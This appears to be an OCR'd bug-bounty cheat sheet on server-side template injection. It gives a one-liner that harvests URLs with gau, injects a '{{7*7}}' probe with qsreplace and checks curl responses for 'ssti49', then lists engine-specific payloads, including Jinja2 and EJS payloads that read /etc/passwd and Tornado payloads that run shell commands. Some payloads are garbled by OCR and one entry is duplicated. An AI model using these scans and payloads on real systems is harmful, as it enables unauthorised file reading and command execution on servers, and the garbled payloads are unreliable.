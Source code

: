 Multiple URL Test Payload:

cat urls.txt | gau -subs | grep '=' | egrep -v '(.js|.png|.svg|.gif|.jpg|.jpeg|.txt|.css|.ico)' | qsreplace "ssti{{ 7*7 }}" | while read url; do cur=$(curl -s "$url" | grep "ssti49"); echo -e "$url -> $cur"; done

1.	cat urls.txt: This command is used to read the contents of the urls.txt file, which presumably contains a list of URLs to be tested.
1.	gau -subs: This part of the command uses the gau tool with the -subs flag to discover URLs with subdomains.
2.	grep '=': This command filters out URLs that contain the equal sign '=' symbol. This is used to find URLs that might have query parameters.
3.	egrep -v '(.js|.png|.svg|.gif|.jpg|.jpeg|.txt|.css|.ico)': This part filters out URLs that have specific file extensions like JavaScript, images, text, and so on. The idea here is to avoid testing URLs that are not likely to be vulnerable.
4.	qsreplace "ssti{{7*7}}": This command uses the qsreplace tool to replace the query parameter value with the payload "ssti{{77}}". The payload "ssti{{77}}" is used to test for SSTI vulnerability by evaluating the expression 7*7 on the server side.
5.	while read url; do cur=$(curl -s $url | grep "ssti49"); echo -e "$url -> $cur"; done: This part loops through each URL from the filtered list, sends a request using curl, and then checks if the response contains "ssti49". If "ssti49" is found in the response, it means the payload was successfully injected and evaluated, indicating a potential SSTI vulnerability.

The OUTPUT shows that the URL "https://vulnerable.com/?s=ssti{{7*7}}" is vulnerable to SSTI, as the payload "ssti49" was successfully injected and evaluated.

Here are the payloads rearranged and with some more additional payloads:
Polyglot:
•	$\{\{<['"}}\\  Polyglot payload to test various template engines

1. Jinja2 (Python):
•	{{ 7*7 }}   Evaluates 7*7 to 49
•	{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}   Exploits Jinja2's code execution capabilities to read /etc/passwd

2. Flask/Jinja2: Identify:
•	{{ '7' 7 }}  Identifies Flask and Jinja2
•	{% for c in [1,2,3] %}{{ (c,c,c) }}{% endfor %}  Prints c, c, c for each loop iteration

3. Tornado (Python):
•	{% import os %}{{ os.popen("ls").read() }}  Lists files in the current directory
•	{% import os %}{{ os.system('whoami') }}  Executes 'whoami' command

4. Django Template (Python):
•	{% debug %}  Prints the context and variable values
•	{% debug %}  Prints the context and variable values

5. Handlebars (JavaScript):
•	{{7*7}}  Evaluates 7*7 to 49
    
6. Express (Node.js):
•	#{7*7}  Evaluates 7*7 to 49

7. EJS (JavaScript):
•	<% require('fs').readFileSync('/etc/passwd', 'utf-8') %>   Reads /etc/passwd file
